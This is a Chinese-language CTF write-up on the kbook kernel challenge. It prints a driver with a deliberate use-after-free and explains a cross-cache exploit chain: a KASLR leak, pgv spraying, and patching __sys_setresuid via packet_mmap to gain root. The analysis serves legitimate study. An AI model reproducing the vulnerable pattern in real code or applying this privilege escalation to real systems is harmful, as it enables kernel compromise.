# 【pwn4kernel】Kernel Heap Cross-Cache UAF技术分析

## 1. 测试环境

**测试版本**：Linux-6.5.5 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.5.5/01/bzImage)

笔者测试的内核版本是 `Linux (none) 6.5.5 #1 SMP PREEMPT_DYNAMIC Wed Jan 14 15:35:01 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_CFI_CLANG`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_STATIC_USERMODEHELPER`、`CONFIG_USERFAULTFD`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/6.5.5/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI/CFI

**测试驱动程序**：本程序源自 **[Unknown2023 - kbook](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/Unknown2023-kbook)** 内核挑战，其核心漏洞存在于一个由`SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT`标志创建的独立Slab缓存中。在该驱动程序中，DELETE_PAGE的ioctl命令在释放对象时调用`kfree((void *)kbooks[pos->book_index][arg])`，但未能将相应的指针清空（即未设置`kbooks[pos->book_index][arg]=NULL`），导致kbook_read与kbook_write函数在后续操作中可继续访问已释放的内存，形成Use-After-Free（UAF）原语。

本挑战的关键在于利用Cross-Cache UAF技术，即通过页级堆风水操作，将属于不同缓存（kbook_jar的kmalloc-1k/order 2和user_key_payload的kmalloc-512/order 1）的内存对象转换为重叠的缓存。具体而言，通过大量分配kbook_jar对象并释放，使其内存返回order 2页面池，然后分配大量user_key_payload对象。当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存，此时user_key_payload对象有很大概率占用之前释放的kbook_jar缓存页面，从而形成跨缓存的UAF条件。通过UAF原语可以泄漏内核中`user_free_payload_rcu`函数的地址，进而绕过KASLR（内核地址空间布局随机化）保护。

随后释放victim的user_key_payload对象，并通过堆喷pgv结构体占用被释放的user_key_payload内存空间，再利用UAF原语控制`pg_vec[victim_idx].buffer`的内容。通过packet_mmap将`pg_vec[victim_idx].buffer`映射到用户空间，实现用户空间修改内核地址内容的原语（即USMA技术）。具体而言，将`pg_vec[victim_idx].buffer`设置为`__sys_setresuid`函数所在页面的起始地址，并通过用户空间的映射修改该页面，patch掉`__sys_setresuid`函数中的关键校验代码。之后，通过UAF原语还原`pg_vec[victim_idx].buffer`的内容，以避免破坏其他内核数据。最后，在用户空间调用`setresuid(0, 0, 0)`，由于`__sys_setresuid`函数的关键校验已被绕过，从而成功实现权限提升。

整个利用过程综合了堆布局、Cross-Cache UAF、信息泄漏、内存映射和函数劫持等多种技术，展示了内核漏洞从UAF到权限提升的完整利用链。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on Unknown 2023 - kbook
#include "linux/gfp_types.h"
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/spinlock.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define MAX_BOOK_NR 0x20
#define MAX_PAGE_BOOK_NR 0x20
#define KCACHE_SIZE 0x400

#define CHOOSE_BOOK 0x114
#define SET_PAGE 0x514
#define DELETE_PAGE 0x1919810

struct position_t {
	size_t book_index;
	size_t page_index;
};

size_t kbooks[MAX_BOOK_NR][MAX_PAGE_BOOK_NR];

static struct kmem_cache *kbook_jar = NULL;

static unsigned int major;
static struct class *kbook_class;
static struct cdev kbook_cdev;
static spinlock_t kbook_lock;

static int kbook_open(struct inode *inode, struct file *filp)
{
	filp->private_data = NULL;
	pr_info("[kbook:] Device open.\n");
	return 0;
}

static int kbook_release(struct inode *inode, struct file *filp)
{
	struct position_t *pos = (struct position_t *)filp->private_data;
	if (pos) {
		kfree(pos);
		filp->private_data = NULL;
	}
	pr_info("[kbook:] Device release.\n");
	return 0;
}

static ssize_t kbook_read(struct file *file, char __user *buffer, size_t count,
			  loff_t *ppos)
{
	ssize_t ret = 0;
	void *page = NULL;
	size_t max_size = KCACHE_SIZE;
	struct position_t *pos = (struct position_t *)file->private_data;
	if (!pos) {
		pr_info("[kbook:] You should firstly get a book!\n");
		return 0;
	}
	spin_lock(&kbook_lock);
	page = (void *)kbooks[pos->book_index][pos->page_index];
	if (!page) {
		page = kmem_cache_alloc(kbook_jar, GFP_KERNEL_ACCOUNT);
		if (!page) {
			pr_info("[kbook:] Out of memory.\n");
			ret = -EFAULT;
			goto out;
		}
		kbooks[pos->book_index][pos->page_index] = (size_t)page;
	}
	if (count < max_size) {
		max_size = count;
	}
	if (copy_to_user(buffer, page, max_size)) {
		pr_info("[kbook:] Failed to copy data to user space\n");
		ret = -EFAULT;
	}
out:
	spin_unlock(&kbook_lock);
	return ret;
}

static ssize_t kbook_write(struct file *file, const char __user *buffer,
			   size_t count, loff_t *ppos)
{
	ssize_t ret = 0;
	void *page = NULL;
	size_t max_size = KCACHE_SIZE;
	struct position_t *pos = (struct position_t *)file->private_data;
	if (!pos) {
		pr_info("[kbook:] You should firstly get a book!\n");
		return 0;
	}
	spin_lock(&kbook_lock);
	page = (void *)kbooks[pos->book_index][pos->page_index];
	if (!page) {
		page = kmem_cache_alloc(kbook_jar, GFP_KERNEL_ACCOUNT);
		if (!page) {
			pr_info("[kbook:] Out of memory.\n");
			ret = -EFAULT;
			goto out;
		}
		kbooks[pos->book_index][pos->page_index] = (size_t)page;
	}
	if (count < max_size) {
		max_size = count;
	}
	if (copy_from_user(page, buffer, max_size)) {
		pr_info("[kbook:] Failed to copy data from user space\n");
		ret = -EFAULT;
	}
out:
	spin_unlock(&kbook_lock);
	return ret;
}

static long kbook_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
	long ret = 0;
	struct position_t *pos = NULL;
	spin_lock(&kbook_lock);
	if (cmd == CHOOSE_BOOK) {
	    if (arg >= 0x20) {
		    pr_info("[kbook:] Invalid index of book!\n");
		    ret = -EFAULT;
		    goto out;
	    }
		pos = (struct position_t *)file->private_data;
		if (pos) {
			pr_info
			    ("[kbook:] The file descriptor had already been "
			     "bound to another book!\n");
			ret = -EFAULT;
			goto out;
		}
		pos = kmalloc(sizeof(struct position_t), GFP_KERNEL);
		if (!pos) {
			pr_info("[kbook:] Out of memory.\n");
			ret = -EFAULT;
			goto out;
		}
		pos->book_index = arg;
		pos->page_index = 0;
		file->private_data = (void *)pos;
		pr_info("[kbook:] Successfully chose the book [%ld].\n", arg);
	} else if (cmd == SET_PAGE) {
		if (arg >= 0x20) {
			pr_info("[kbook:] Invalid index of page!\n");
			ret = -EFAULT;
			goto out;
		}
		pos = (struct position_t *)file->private_data;
		if (!pos) {
			pr_info("[kbook:] You should firstly get a book!\n");
			ret = -EFAULT;
			goto out;
		}
		pos->page_index = arg;
		file->private_data = (void *)pos;
		pr_info("[kbook:] Successfully chose the page [%ld].\n", arg);
	} else if (cmd == DELETE_PAGE) {
		if (arg >= 0x20) {
			pr_info("[kbook:] Invalid index of page!\n");
			ret = -EFAULT;
			goto out;
		}
		pos = (struct position_t *)file->private_data;
		if (!pos) {
			pr_info("[kbook:] You should firstly get a book!\n");
			ret = -EFAULT;
			goto out;
		}
		if (kbooks[pos->book_index][arg]) {
			kfree((void *)kbooks[pos->book_index][arg]);
		}
		pr_info("[kbook:] Successfully deleted "
			"the page [%ld].\n", arg);
	} else {
		pr_info("[kbook:] Unknown ioctl cmd!\n");
		ret = -EINVAL;
	}
out:
	spin_unlock(&kbook_lock);
	return ret;
}

struct file_operations kbook_fops = {
	.owner = THIS_MODULE,
	.open = kbook_open,
	.release = kbook_release,
	.read = kbook_read,
	.write = kbook_write,
	.unlocked_ioctl = kbook_ioctl,
};

static int __init init_kbook(void)
{
	struct device *kbook_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "kbook");
	if (error < 0) {
		pr_err("[kbook:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[kbook:] kbook major number = %d.\n", major);

	kbook_class = class_create("kbook_class");
	if (IS_ERR(kbook_class)) {
		pr_err("[kbook:] Error creating kbook class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(kbook_class);
	}

	cdev_init(&kbook_cdev, &kbook_fops);
	kbook_cdev.owner = THIS_MODULE;
	cdev_add(&kbook_cdev, devt, 1);
	kbook_device = device_create(kbook_class, NULL, devt, NULL, "kbook");
	if (IS_ERR(kbook_device)) {
		pr_err("[kbook:] Error creating kbook device!\n");
		class_destroy(kbook_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	spin_lock_init(&kbook_lock);
	kbook_jar =
	    kmem_cache_create_usercopy("kbook_jar", KCACHE_SIZE, 0,
				       SLAB_HWCACHE_ALIGN | SLAB_PANIC |
				       SLAB_ACCOUNT, 0, KCACHE_SIZE, NULL);
	if (!kbook_jar) {
		pr_info("[kbook:] kbook_jar create failed.\n");
		return -ENOMEM;
	}
	pr_info("[kbook:] kbook module loaded.\n");
	return 0;
}

static void __exit exit_kbook(void)
{
	if (kbook_jar) {
		kmem_cache_destroy(kbook_jar);
		pr_info("[kbook:] kbook_jar slab cache destroyed.\n");
	}
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(kbook_class, MKDEV(major, 0));
	cdev_del(&kbook_cdev);
	class_destroy(kbook_class);
	pr_info("[kbook:] kbook module unloaded.\n");
}

module_init(init_kbook);
module_exit(exit_kbook);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 驱动程序架构与内存管理机制

#### 2-1-1. 模块整体架构设计

kbook驱动程序实现了一个基于独立Slab缓存的简单内存管理系统，其设计理念是为用户空间提供一种结构化的内存管理接口。该模块通过字符设备接口向用户空间暴露功能，采用"书籍-页面"的抽象模型来组织内存资源，这种设计模式在内核驱动开发中较为常见，旨在为用户提供一种直观的资源管理方式。

驱动程序采用了典型的内核模块架构，包含用户空间接口层、会话管理层、内存管理层、同步控制层和错误处理层等多个组件。这种分层架构设计使得各个功能模块职责分明，便于维护和扩展。用户空间接口层通过标准的字符设备操作接口与用户进程交互，提供了类似于文件系统的操作语义，降低了用户空间程序的使用复杂度。

在内存管理方面，驱动程序采用了独立Slab缓存的策略，这种设计可以有效避免不同类型内存对象之间的相互干扰，提高内存分配的效率和可预测性。同时，通过全局自旋锁机制保护关键数据结构的访问，确保了在多线程环境下的数据一致性。

#### 2-1-2. 核心数据结构详解

**全局页表数组的精确布局**：

```c
size_t kbooks[MAX_BOOK_NR][MAX_PAGE_BOOK_NR];
```

这个二维指针数组构成了驱动程序的核心数据结构，用于管理所有分配的内存页面。数组的尺寸定义为32×32，这意味着系统最多可以管理1024个独立的内存页面。在64位系统中，每个指针占用8字节，因此整个数组占用的内存空间为8KB。这种固定大小的数组设计简化了内存管理的复杂度，但同时也限制了系统的可扩展性。

**会话管理结构**：

```c
struct position_t {
    size_t book_index;   // 8字节
    size_t page_index;   // 8字节
};
```

会话管理结构体记录了每个打开文件描述符的当前操作位置。这种设计使得多个进程可以同时操作不同的"书籍"和"页面"，实现了操作上下文的隔离。结构体的总大小为16字节，在64位系统上按照8字节对齐，这符合典型的内核数据结构对齐要求，有助于提高内存访问效率。

**专用Slab缓存配置**：
驱动程序通过`kmem_cache_create_usercopy`函数创建了一个专用的Slab缓存`kbook_jar`。这个缓存的对象大小设置为1024字节，恰好对应一个内存页面的管理单元大小。缓存标志包含了几个关键设置：

- `SLAB_HWCACHE_ALIGN`：确保缓存对象按照硬件缓存行对齐，提高缓存利用率
- `SLAB_PANIC`：在内存分配失败时触发系统panic，这是一种严格但可能过于激进的设计选择
- `SLAB_ACCOUNT`：将内存使用计入cgroup统计，便于系统资源管理

#### 2-1-3. 内存分配与释放机制

**内存分配流程**：
当用户进程通过`read`或`write`系统调用访问一个尚未分配的"页面"时，驱动程序会执行以下详细的内存分配流程：


```mermaid
sequenceDiagram
    participant 用户进程
    participant 驱动程序
    participant Slab缓存
    participant 伙伴系统

    用户进程->>驱动程序: read/write系统调用
    驱动程序->>驱动程序: 获取kbook_lock自旋锁
    驱动程序->>驱动程序: 检查kbooks[book][page]指针

    alt 指针为NULL
        驱动程序->>Slab缓存: kmem_cache_alloc(kbook_jar, GFP_KERNEL_ACCOUNT)
        Slab缓存->>伙伴系统: 申请order 2页面 (如有需要)
        伙伴系统-->>Slab缓存: 返回物理页面
        Slab缓存-->>驱动程序: 返回缓存对象指针
        驱动程序->>驱动程序: kbooks[book][page] = 指针
        驱动程序->>驱动程序: 执行数据拷贝操作
    else 指针非NULL
        驱动程序->>驱动程序: 直接使用现有指针
        驱动程序->>驱动程序: 执行数据拷贝操作
    end

    驱动程序->>驱动程序: 释放kbook_lock自旋锁
    驱动程序-->>用户进程: 返回操作结果
```

**内存释放流程**：
用户可以通过`DELETE_PAGE`命令释放特定的内存页面。这个操作的执行流程如下：


```mermaid
flowchart TD
    Start([DELETE_PAGE调用]) --> CheckParam[参数验证]
    CheckParam --> ValidParam{参数有效?}

    ValidParam -- 否 --> Error1[返回错误]
    ValidParam -- 是 --> CheckSession[检查会话]

    CheckSession --> ValidSession{会话存在?}
    ValidSession -- 否 --> Error2[返回错误]
    ValidSession -- 是 --> CheckPointer[检查指针]

    CheckPointer --> PointerExists{指针非空?}
    PointerExists -- 否 --> Log[记录日志]
    PointerExists -- 是 --> FreeMemory[释放内存]

    FreeMemory --> LogSuccess[记录成功日志]

    Log --> Return[返回成功]
    LogSuccess --> Return
    Error1 --> ReturnError[返回错误]
    Error2 --> ReturnError

    Return --> Exit([结束])
    ReturnError --> Exit

    subgraph 关键缺陷点
        FreeMemory
    end

    subgraph 缺失的安全操作
        ClearPointer[清空指针]
    end
```

这个流程在实现上存在一个关键的设计缺陷：在调用`kfree`释放内存后，没有将`kbooks`数组中的对应指针清空。这个看似微小的疏忽却可能引发严重的内存安全问题。

### 2-2. 漏洞成因与内存状态分析

#### 2-2-1. 漏洞代码位置与逻辑缺陷

漏洞的核心位于`kbook_ioctl`函数处理`DELETE_PAGE`命令的逻辑中。以下是存在缺陷的代码段及其详细分析：

```c
else if (cmd == DELETE_PAGE) {
    if (arg >= 0x20) {
        pr_info("[kbook:] Invalid index of page!\n");
        ret = -EFAULT;
        goto out;
    }
    pos = (struct position_t *)file->private_data;
    if (!pos) {
        pr_info("[kbook:] You should firstly get a book!\n");
        ret = -EFAULT;
        goto out;
    }
    if (kbooks[pos->book_index][arg]) {
        kfree((void *)kbooks[pos->book_index][arg]);
        // 漏洞点：此处缺少 kbooks[pos->book_index][arg] = 0;
    }
    pr_info("[kbook:] Successfully deleted the page [%ld].\n", arg);
}
```

**缺陷的深度分析**：

1. **内存生命周期管理错误**：
   在内核内存管理中，内存的分配和释放需要成对出现，同时需要确保指向已释放内存的指针不会再次被使用。这段代码在执行`kfree`释放内存后，没有将对应的指针设置为NULL，这违反了内核内存管理的基本原则。

2. **悬垂指针的形成**：
   当指针指向的内存已经被释放，但指针本身仍然保留着原来的地址值时，这个指针就变成了悬垂指针。悬垂指针的使用会导致不可预测的行为，包括读取到无效数据、写入到已释放的内存区域，甚至可能导致系统崩溃。

3. **类型混淆风险**：
   由于已释放的内存可能被重新分配给其他类型的内核对象，通过悬垂指针访问内存时，实际上可能访问到的是完全不同的数据结构。这种类型混淆可能导致严重的内核状态不一致问题。

4. **并发访问问题**：
   在多核系统中，如果一个CPU核心正在通过悬垂指针访问已释放的内存，而另一个CPU核心恰好将这块内存重新分配给了其他对象，就会产生竞态条件，导致数据损坏或系统不稳定。

#### 2-2-2. 漏洞触发的时序条件

UAF漏洞的触发需要特定的时序条件，以下是完整的触发序列的详细分析：


```mermaid
sequenceDiagram
    participant 进程A
    participant 驱动程序
    participant Slab分配器
    participant 内存系统
    participant 进程B

    Note over 进程A,内存系统: 阶段1: 内存分配
    进程A->>驱动程序: read/write(B, P)
    驱动程序->>Slab分配器: kmem_cache_alloc()
    Slab分配器->>内存系统: 分配1024字节内存
    内存系统-->>Slab分配器: 返回内存地址A
    Slab分配器-->>驱动程序: 返回指针ptr = A
    驱动程序->>驱动程序: kbooks[B][P] = ptr
    驱动程序-->>进程A: 操作成功

    Note over 进程A,内存系统: 阶段2: 内存释放(漏洞点)
    进程A->>驱动程序: DELETE_PAGE(B, P)
    驱动程序->>Slab分配器: kfree(ptr)
    Slab分配器->>内存系统: 释放地址A的内存
    驱动程序->>驱动程序: 未清空kbooks[B][P]
    驱动程序-->>进程A: 删除成功

    Note over 进程A,内存系统: 阶段3: 内存重用
    进程B->>系统: 分配其他对象
    系统->>内存系统: 分配内存
    内存系统-->>系统: 可能返回地址A
    系统-->>进程B: 新对象使用地址A

    Note over 进程A,内存系统: 阶段4: UAF触发
    进程A->>驱动程序: read/write(B, P)
    驱动程序->>驱动程序: 检查kbooks[B][P] ≠ NULL
    驱动程序->>内存系统: 通过ptr访问地址A
    内存系统-->>驱动程序: 返回新对象的数据
    驱动程序-->>进程A: 返回错误数据
```

#### 2-2-3. 内存状态的形式化描述

为了更精确地描述漏洞触发的内存状态变化，建立以下形式化模型：

**定义基本集合和函数**：

- 设$$B = \{0, 1, \ldots, 31\}$$为书籍索引集合
- 设$$P = \{0, 1, \ldots, 31\}$$为页面索引集合
- 对于每个$$(b,p) \in B \times P$$，定义：
    - $$M_{b,p}$$：`kbooks[b][p]`指向的内存区域
    - $$ptr_{b,p}$$：`kbooks[b][p]`存储的指针值
    - $$state(M_{b,p})$$：内存区域$$M_{b,p}$$的状态

**状态空间定义**：
内存区域可以处于以下三种状态之一：

- $$state(M) = \text{ALLOCATED}$$：内存已分配且有效
- $$state(M) = \text{FREED}$$：内存已释放
- $$state(M) = \text{INVALID}$$：内存状态无效（初始状态）

**操作的形式化描述**：

1. **内存分配操作**：
   当用户通过`read`或`write`操作访问未分配的页面时，执行：

    $$
    \text{allocate}(b,p):
    \begin{cases}
    ptr_{b,p} = \text{kmem_cache_alloc}(kbook\_jar) \\
    state(M_{b,p}) = \text{ALLOCATED}
    \end{cases}
    $$

2. **内存释放操作**（存在缺陷）：
   当用户调用`DELETE_PAGE`命令时，执行：

    $$
    \text{free_defective}(b,p):
    \begin{cases}
    \text{if } ptr_{b,p} \neq \text{NULL} \text{ then } \text{kfree}(ptr_{b,p}) \\
    state(M_{b,p}) = \text{FREED} \\
    ptr_{b,p} \text{ 保持不变} \quad \text{← 漏洞点}
    \end{cases}
    $$

3. **正确的内存释放操作**：
   正确的实现应该是：

    $$
    \text{free_correct}(b,p):
    \begin{cases}
    \text{if } ptr_{b,p} \neq \text{NULL} \text{ then } \text{kfree}(ptr_{b,p}) \\
    state(M_{b,p}) = \text{FREED} \\
    ptr_{b,p} = \text{NULL} \quad \text{← 正确的做法}
    \end{cases}
    $$

4. **内存访问操作**：
   在`read`或`write`操作中：
    $$
    \text{access}(b,p):
    \begin{cases}
    \text{if } ptr_{b,p} \neq \text{NULL} \text{ then 使用 } ptr_{b,p} \text{ 访问内存} \\
    \text{else 分配新内存}
    \end{cases}
    $$

**漏洞状态的形式化描述**：
定义漏洞状态为：

$$
\text{vulnerable_state}(b,p) \iff (state(M_{b,p}) = \text{FREED}) \land (ptr_{b,p} \neq \text{NULL})
$$

在这个状态下执行访问操作会导致Use-After-Free：

$$
\text{access}(b,p) \text{ 在 vulnerable_state}(b,p) \text{ 下} \Rightarrow \text{UAF}
$$

**状态转移图**：
内存状态的转移可以通过以下状态机描述：

- 初始状态：$$state(M) = \text{INVALID}, ptr = \text{NULL}$$
- 分配操作：$$\text{INVALID} \rightarrow \text{ALLOCATED}$$
- 释放操作（缺陷）：$$\text{ALLOCATED} \rightarrow \text{FREED}$$（但$$ptr$$不变）
- 重新分配：$$\text{FREED} \rightarrow \text{ALLOCATED}$$（被其他对象使用）
- 访问操作：在$$\text{FREED}$$状态下访问 → UAF

这个形式化模型清晰地展示了漏洞的本质：内存状态与指针状态的不一致。

### 2-3. 完整技术验证流程分析

#### 2-3-1. 技术验证阶段总览

基于上述UAF漏洞，可以构建一个包含七个阶段的完整技术验证流程。每个阶段都有明确的技术目标和实现方法，整个流程展示了从初始漏洞发现到完整技术验证的全过程。


```mermaid
flowchart TD
    A[阶段1: 内存预热与布局] --> B[阶段2: UAF条件创建]
    B --> C[阶段3: 内存交错布局]
    C --> D[阶段4: 信息提取与计算]
    D --> E[阶段5: 内存重新分配控制]
    E --> F[阶段6: 高级内存技术应用]
    F --> G[阶段7: 权限验证]
```

这个流程图展示了技术验证的主要阶段和它们之间的依赖关系。每个阶段都为后续阶段奠定基础，整个流程形成了一个逻辑严密的验证链。

#### 2-3-2. 阶段1：内存预热与布局

**技术目标**：
通过大量分配`kbook_jar`缓存对象，建立可控的内存布局，为后续操作创造条件。这个阶段的目标是熟悉驱动的内存分配行为，并创建一个可预测的内存环境。

**实现细节**：

1. **分配策略设计**：
   采用系统性的分配策略，确保内存布局的可预测性。通过连续调用`kbook_read`或`kbook_write`函数1024次（32书籍×32页面），建立完整的内存映射关系。每次分配都会触发驱动程序从`kbook_jar`缓存中分配一个1024字节的对象。

2. **内存消耗分析**：
   每次分配消耗1024字节内存，总计分配1024个对象，共消耗1MB内存。这个内存规模足够大以确保影响内核内存分配器的行为，但又不会过大导致系统内存压力。

3. **页面分配模式**：
   `kbook_jar`缓存使用order 2页面（4KB），每个页面可以容纳4个对象。通过控制分配顺序，可以影响对象在物理内存中的分布。这个特性在后续阶段中非常重要，因为它允许预测内存的物理布局。

4. **布局控制技术**：
   通过精确控制分配的时间间隔和顺序，可以减少内存分配的不确定性。可以记录每个分配操作返回的指针值，分析它们在虚拟地址空间中的分布模式，从而推断物理内存的布局特征。

**内存布局数学模型**：
设$$N$$为分配的对象数量，$$P$$为order 2页面数量，$$O$$为每个页面的对象数量（4个），则有：

$$
P = \lceil \frac{N}{O} \rceil = \lceil \frac{1024}{4} \rceil = 256 \text{个order 2页面}
$$

每个order 2页面的内存布局可以表示为：

$$
\text{Page}_i = [\text{Obj}_{4i}, \text{Obj}_{4i+1}, \text{Obj}_{4i+2}, \text{Obj}_{4i+3}], \quad i = 0,1,\ldots,255
$$

其中$$\text{Obj}_j$$表示第$$j$$个分配的对象。

**技术意义**：
这个阶段不仅仅是为后续操作准备内存，更重要的是通过大量分配操作，可以观察和分析内核内存分配器的行为模式。了解分配器的行为特征对于预测内存重用模式至关重要。通过记录分配的时间、顺序和返回的地址，可以建立内存分配的概率模型，为后续阶段提供决策依据。

#### 2-3-3. 阶段2：UAF条件创建

**技术目标**：
利用`DELETE_PAGE`命令的设计缺陷，创建悬垂指针，为后续的UAF操作建立基础。这个阶段的核心是通过系统的内存释放操作，创建大量的悬垂指针，为内存重用创造条件。

**实现细节**：

1. **完全释放策略**：
   采用完全释放策略，遍历所有已分配的`kbook_jar`对象，对每个对象执行`DELETE_PAGE`操作。这种策略有几个优点：
    - 提高成功率：释放所有对象增加了内存重叠的概率
    - 简化控制：不需要选择性释放，操作更简单直接
    - 增加稳定性：避免了部分释放可能导致的内存布局不稳定
    - 提高可预测性：所有对象处于相同状态，更容易预测内存分配行为

2. **指针状态管理**：
   在释放所有对象后，`kbooks`数组中所有对应位置的指针都变为悬垂指针。这些指针仍然指向已释放的内存区域，但内存内容已经不再有效。这种状态是触发UAF漏洞的必要条件。

3. **内存状态控制**：
   所有已分配的内存都返回Slab缓存，处于完全可重用状态。内存分配器可以将这些内存重新分配给其他内核对象。通过控制释放操作的时间和顺序，可以影响内存重用模式。

4. **UAF条件建立**：
   所有指针都未清空，形成完整的UAF漏洞环境。这意味着后续通过这些指针的访问都会触发UAF条件。通过记录哪些指针是悬垂指针，可以为后续的信息提取阶段提供目标。

**UAF条件的形式化描述**：
设$$O_{\text{all}}$$为所有已分配对象的集合，$$|O_{\text{all}}| = 1024$$，则完全释放后的UAF条件可以形式化描述为：

$$
\forall o \in O_{\text{all}}: \text{ptr}(o) \neq \text{NULL} \land \text{state}(o) = \text{FREED}
$$

其中$$\text{ptr}(o)$$表示对象$$o$$对应的指针，$$\text{state}(o)$$表示对象$$o$$的内存状态。

**内存状态转移**：
从阶段1结束到阶段2结束，内存状态发生了重要变化：

$$
\text{MemoryState}_{\text{before}} \xrightarrow{\text{DELETE_PAGE(全部)}} \text{MemoryState}_{\text{after}}
$$

其中：

- $$\text{MemoryState}_{\text{before}}$$：所有1024个对象状态为ALLOCATED
- $$\text{MemoryState}_{\text{after}}$$：所有1024个对象状态为FREED，但所有指针均未清空

**完全释放的操作序列**：
具体的操作序列可以表示为：

```
for book_idx from 0 to 31:
    for page_idx from 0 to 31:
        ioctl(fd, DELETE_PAGE, page_idx)
```

这个双重循环确保所有已分配的对象都被释放，同时保持指针不变。

**内存状态变化示意图**：

```
释放前内存布局 (部分):
+----------------+----------------+----------------+----------------+
| kbook_obj0     | kbook_obj1     | kbook_obj2     | kbook_obj3     |
| (已分配)       | (已分配)       | (已分配)       | (已分配)       |
+----------------+----------------+----------------+----------------+

完全释放后:
+----------------+----------------+----------------+----------------+
| (已释放)       | (已释放)       | (已释放)       | (已释放)       |
| 指针未清空     | 指针未清空     | 指针未清空     | 指针未清空     |
+----------------+----------------+----------------+----------------+
```

**完全释放的数学建模**：
设$$S_{\text{free}}$$为释放的内存集合，$$|S_{\text{free}}| = 1024$$，则：

- 释放的内存总量：$$1024 \times 1024 = 1,048,576$$字节 = 1MB
- 释放的页面数量：$$\lceil 1024 / 4 \rceil = 256$$个order 2页面
- 悬垂指针数量：1024个

**完全释放对后续阶段的影响**：

1. **内存交错阶段**：有更多空闲内存可供`user_key_payload`对象使用，增加了内存重叠的概率
2. **信息提取阶段**：有更多悬垂指针可供扫描和识别，提高了信息提取的成功率
3. **成功率提升**：完全释放增加了内存重用的概率，提高了技术验证的整体成功率
4. **可预测性增强**：所有对象处于相同状态，减少了内存分配的不确定性

**技术意义**：
这个阶段展示了如何利用设计缺陷创建有利的内存状态。通过系统地释放所有内存但不清空指针，创造了大量的悬垂指针，为后续的内存重用和信息提取创造了条件。这种方法的有效性依赖于对内存分配器行为的深入理解，以及对时序条件的精确控制。

#### 2-3-4. 阶段3：内存交错布局

**技术目标**：
通过Cross-Cache UAF技术，在已释放的kbook_jar（kmalloc-1k/order 2）内存区域上重新分配user_key_payload（kmalloc-512/order 1）对象，实现跨缓存的内存交错。这种技术的关键在于利用不同大小的缓存对象共享相同的物理页面，从而通过UAF原语实现不同类型对象间的内存访问。

**Cross-Cache UAF技术原理**：
Cross-Cache UAF技术的核心是通过页级堆风水操作，将属于不同缓存的内存对象转换为重叠的缓存。kbook_jar缓存对象大小为1024字节，分配的是order 2页面（4KB），而user_key_payload对象大小为512字节，分配的是order 1页面（2KB）。当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存。由于之前释放的kbook_jar对象占据的是order 2页面，新分配的user_key_payload对象有很大概率会重用这些内存区域，从而形成跨缓存的UAF条件。

**内存交错实现细节**：


```mermaid
sequenceDiagram
    participant 利用进程
    participant 内存分配器
    participant Slab缓存
    participant 伙伴系统

    Note over 利用进程,伙伴系统: 步骤1: 已释放kbook_jar内存(Order 2页面)
    内存分配器->>Slab缓存: 已释放的kbook_jar对象
    Slab缓存->>伙伴系统: 释放Order 2页面

    Note over 利用进程,伙伴系统: 步骤2: Order 1页面耗尽
    利用进程->>内存分配器: 分配user_key_payload对象
    内存分配器->>Slab缓存: 请求kmalloc-512内存
    Slab缓存->>伙伴系统: Order 1页面不足，从Order 2切割

    Note over 利用进程,伙伴系统: 步骤3: 内存交错形成
    伙伴系统-->>Slab缓存: 返回之前释放的Order 2页面
    Slab缓存-->>内存分配器: 从切割的页面分配user_key_payload
    内存分配器-->>利用进程: 返回user_key_payload对象地址

    Note over 利用进程,伙伴系统: 步骤4: 跨缓存UAF条件建立
    利用进程->>利用进程: 通过悬垂指针访问user_key_payload
```

**内存交错概率优化**：
通过大量分配user_key_payload对象（199个），可以显著提高内存交错的概率。当order 1页面耗尽后，内存分配器会从order 2页面池中切割内存，此时之前释放的kbook_jar内存区域成为可用的分配目标。通过精确控制分配的数量和时机，可以确保高概率的内存重叠。

**技术挑战与解决方案**：

1. **缓存隔离性挑战**：
    - 挑战：内核的Slab缓存通常具有隔离性，不同大小的缓存对象不会混合存储
    - 解决方案：通过页级内存重用机制绕过缓存隔离，利用伙伴系统的页面切割机制实现跨缓存访问

2. **内存布局随机性**：
    - 挑战：内存分配具有一定的随机性，难以精确控制
    - 解决方案：通过大量分配和释放操作，利用统计规律提高成功概率

3. **时序敏感性**：
    - 挑战：内存重用对操作时序非常敏感
    - 解决方案：精确控制各个操作的时间间隔，减少系统其他操作的干扰

**Cross-Cache UAF的优势**：

1. **绕过缓存隔离**：传统的UAF通常在同一缓存内操作，而Cross-Cache UAF可以跨越不同的缓存
2. **信息泄露能力**：可以访问不同类型的内核对象，从而提取更丰富的信息
